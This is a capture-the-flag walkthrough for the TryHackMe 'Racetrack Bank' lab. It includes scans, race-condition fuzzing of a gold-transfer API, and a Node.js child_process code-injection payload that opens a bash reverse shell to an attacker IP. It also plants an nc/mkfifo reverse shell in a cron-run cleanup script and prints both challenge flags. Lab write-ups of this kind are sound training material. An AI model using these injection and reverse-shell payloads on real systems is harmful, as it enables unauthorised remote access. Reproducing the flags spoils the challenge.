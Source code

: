 # Racetrack Bank

It's time for another heist.

[Racetrack Bank](https://tryhackme.com/room/racetrackbank)

* Network Enumeration
* Web Enumeration
* Code Injection
* Abusing SUID/GUID

## Task 1 Flags

Hack into the machine and capture both the user and root flags! It's pretty hard, so good luck.

```
kali@kali:~/CTFs/tryhackme/Racetrack Bank$ sudo nmap -A -sS -sC -sV -O 10.10.44.102
[sudo] password for kali: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 15:58 CEST
Nmap scan report for 10.10.44.102
Host is up (0.034s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 51:91:53:a5:af:1a:5a:78:67:62:ae:d6:37:a0:8e:33 (RSA)
|   256 c1:70:72:cc:82:c3:f3:3e:5e:0a:6a:05:4e:f0:4c:3c (ECDSA)
|_  256 a2:ea:53:7c:e1:d7:60:bc:d3:92:08:a9:9d:20:6b:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Racetrack Bank
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%), Linux 2.6.39 - 3.2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   33.95 ms 10.8.0.1
2   34.09 ms 10.10.44.102

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.17 seconds
```

```
kali@kali:~/CTFs/tryhackme/Racetrack Bank$ gobuster dir -u http://10.10.44.102/ -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.44.102/
[+] Threads:        25
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php,html
[+] Timeout:        10s
===============================================================
2020/10/20 16:00:27 Starting gobuster
===============================================================
/create.html (Status: 200)
/home.html (Status: 302)
/Home.html (Status: 302)
/images (Status: 301)
/Images (Status: 301)
/index.html (Status: 200)
/Index.html (Status: 200)
/index.html (Status: 200)
/login.html (Status: 200)
/Login.html (Status: 200)
/purchase.html (Status: 302)
===============================================================
2020/10/20 16:01:01 Finished
===============================================================
```

[http://10.10.44.102/home.html](http://10.10.44.102/home.html)

wfuzz -w gold.txt -u http://10.10.44.102/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3A1_QrOdmwhf3pJserjzFqbCWZAqIYR8fv.vb7X%2BTckrABMYXkszRkdjHm59MnUjLGo9jPnfbBaCc0" -d "user=test2&amount=FUZZ"

wfuzz -w gold.txt -u http://10.10.44.102/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3AdztpeWIe47gRM3QkNL6s1zBf_NqHY9eb.DErxWEyXCczE%2BYifpQ2t%2F7rMBpsh1AHZpTk73Z9yj6M" -d "user=test&amount=FUZZ"

[http://10.10.44.102/premiumfeatures.html?ans=2](http://10.10.44.102/premiumfeatures.html?ans=2)

`calculation=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.8.106.222/9001+0>%261"')`

```
brian@racetrack:~/website$ cd ~
cd ~
brian@racetrack:~$ ls -l
ls -l
total 16
drwxrwxr-x 3 root  root  4096 Apr 23 05:07 admin
drwxr-xr-x 2 brian brian 4096 Apr 23 04:55 cleanup
-rw-rw-r-- 1 brian brian   39 Apr 23 05:45 user.txt
drwxrwxr-x 6 brian brian 4096 Apr 22 09:41 website
brian@racetrack:~$ cat user.txt
cat user.txt
THM{178c31090a7e0f69560730ad21d90e70}
```

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9002 >/tmp/f' > cleanup/cleanupscript.sh
```

```
brian@racetrack:~$ find / -perm -4000 -user root -type f 2> /dev/null
find / -perm -4000 -user root -type f 2> /dev/null
/home/brian/admin/manageaccounts
```

```
brian@racetrack:~$ cat root_flag.txt
cat root_flag.txt
THM{55a9d6099933f6c456ccb2711b8766e3}
```

1. User flag

`THM{178c31090a7e0f69560730ad21d90e70}`

2. Root flag

`THM{55a9d6099933f6c456ccb2711b8766e3}`
